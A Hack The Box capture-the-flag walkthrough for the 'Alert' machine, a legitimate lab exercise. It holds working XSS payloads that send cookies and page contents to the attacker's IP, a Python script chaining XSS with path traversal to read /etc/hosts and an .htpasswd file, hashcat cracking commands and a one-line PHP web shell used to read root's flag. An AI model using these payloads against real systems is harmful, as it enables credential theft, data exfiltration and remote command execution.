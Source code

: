 ![Alert](https://labs.hackthebox.com/storage/avatars/6f4647030d6aadc676b8d8a459de344f.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [FisMatHack](https://app.hackthebox.com/users/1076236)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---







- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.44 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.44 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/dab10fa7-e3ee-40fa-8dbb-f4f2ffb822f6)

- I found the domain `alert.htb` and I add it to the file in the `hosts` file.
- When I enter the website I find several sections. Inside about us we see a description that makes us think that we can send a message to the administrator and it will be executed automatically.

	![image](https://github.com/user-attachments/assets/9bd8c59e-101b-4618-a042-7823c1a381bb)

- In the contact us section we can validate if this previous thought is correct. We set up a web server with python and send in the message content a reference to our server. We observe that we get the request that we have defined.

	```python
	test <script src=http://10.10.14.11:8000/pepe></script>
	```

	![image](https://github.com/user-attachments/assets/2264e40a-2c0e-48bb-9a08-5c92262bc45b)

- At this point I try to get the session cookie from the administrator. I send him within the comments a request against my server containing in the url his cookie, but when I get the request I notice that he doesn't have it.

	```python
	<script src="http://10.10.14.11/script.js"></script>
	# and script.js contains
	fetch('http://10.10.14.11/from_script/' + document.cookie);
	```

- I notice that when switching between pages only one parameter of the url changes so I decide to apply brute force to try to find new endpoints.

	```python
	wfuzz -c --hw 52 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://alert.htb/index.php?page=FUZZ" 
	```

	![image](https://github.com/user-attachments/assets/a4795d3f-071c-4a26-8d07-646b7c7fb1ac)

- I find the endpoint “messages” but it does not show anything.
- I try to find subdomains and I manage to find one. When accessing it asks for credentials but I don't have any at the moment.

	```python
	ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://alert.htb'  -H 'Host: FUZZ.alert.htb'
	```

	![image](https://github.com/user-attachments/assets/d9bc9221-85e9-47c8-8a03-6cc8a4ed44fb)

- Going back to the alert.htb endpoints, I have the main one that allows to upload “.md” file. Once uploaded it allows me to observe its content. I decide to validate if it is vulnerable to XSS injections by uploading a simple file with an alert and I verify that it is.

	```python
	pepe
	<img src=x onerror=alert(1) />
	```

	![image](https://github.com/user-attachments/assets/8fbe51f5-ec16-48bd-a94e-26dd6091c3b5)

- Combining the different findings I try to read the content of the page I found earlier, “messages”. For it I create a file that I am going to upload in the part of “Markdown viewer” with extension .md that makes a request to section of messages and that later forwards the obtained answer to my server.
- To avoid problems, I convert the content of the request to base64.

	```python
	 <script>
	fetch("http://alert.htb/index.php?page=messages")
		.then(response => response.text())
		.then(data => {
			fetch("http://10.10.14.11/test=" + btoa(data));
			})
		 
	</script>
	```

- When I upload it, it generates a link with which I can access my file. I pass this link through the contact us section to the administrator so that he can access it.
	
	```python
	asdf <script src=http://alert.htb/visualizer.php?link_share=67dfdf2836c0f2.84080614.md></script>
	```

- I receive the request in base64. When I convert it I can see that the administrator can see a different content than the one in the attached messages.

	![image](https://github.com/user-attachments/assets/456e3afc-fe59-4669-a0fa-6ec6bdd9ea4b)

- I decide to create a python script to automate this process and try to read that file that I could not see at first.
- Changing the first script so that it stops pointing to the messages section and now points to the file I can see its content but it is empty.
- I decide to try to make a request to view internal system files (LFI) using a directory path traversal and I manage to read internal files.

	```python
	import os
	import sys
	import re
	import requests
	
	target_url = "http://alert.htb/messages.php?file=../../../../../../../../../../../../etc/hosts"  
	
	url_upload = "http://alert.htb:80/visualizer.php"
	headers_upload = {
		"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryXs1NS5MBWtbasWXg"
	}
	data_upload = "------WebKitFormBoundaryXs1NS5MBWtbasWXg\r\nContent-Disposition: form-data; name=\"file\"; filename=\"message.md\"\r\nContent-Type: text/markdown\r\n\r\n<script>\nfetch('"+target_url+"')\n.then(response => response.text())\n.then(data => {\n fetch(\"http://10.10.14.11/data=\" + btoa(data));\n})\n</script>\n\r\n------WebKitFormBoundaryXs1NS5MBWtbasWXg--\r\n"
	response_upload = requests.post(url_upload, headers=headers_upload, data=data_upload)
	
	urls = re.findall(r'http://[^\s"]+', response_upload.text)
	
	
	if (urls):
		print(urls[-1])
	else:
		exit(1)
	
	url_contact = "http://alert.htb:80/contact.php"
	headers_contact = {
	"Cache-Control": "max-age=0", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8", "Sec-GPC": "1", "Accept-Language": "en-US,en;q=0.6", "Referer": "http://alert.htb/index.php?page=contact", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
	data_contact = {"email": "a@a.com", "message": "test test <script src="+urls[-1]+"></script>"}
	response_contact = requests.post(url_contact,headers=headers_contact, data=data_contact)
	```

	![image](https://github.com/user-attachments/assets/cfba432c-d9fe-4179-8008-820fa2c229ff)

- By trying different paths I manage to find a file that apparently belongs to the other subdomain we had previously found and contains a credential of the user alber. 

	```python
	http://alert.htb/messages.php?file=../../../../../../../../../../../var/www/statistics.alert.htb/.htpasswd
	```
	
	![image](https://github.com/user-attachments/assets/94ef0782-f1e5-4f89-b2d5-e0977b2f7c31)

- I use hashcat and manage to find the user's password.

	```python
	hashcat -m 1600 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt
	```

- With these credentials and using ssh I can connect to the system and I can read the first flag.
- Once inside the system I list the ports that are in use and I notice that 8080 is being used.

	![image](https://github.com/user-attachments/assets/db691c5a-d488-4338-9bc1-f321bf1b6c87)
	
	![image](https://github.com/user-attachments/assets/d8f67495-97b1-4a00-8ad7-f561baa607d5)

	
- I share the port using chisel to my machine to be able to access this new web. I can't find anything relevant.
- The directory where the files of this web page are located has full permissions for all users. 

	![image](https://github.com/user-attachments/assets/6cdde485-ed8b-4a8f-af1b-c955b6620853)

- I create a file that allows me to execute commands as the user that is running the server (root), and thanks to this I can read the system's senguda flag.

```python
<?php system($_GET['cmd']);?>
```

```python
curl --path-as-is 'http://localhost:8080/monitors/a.php?cmd=cat%20/root/root.txt'
```
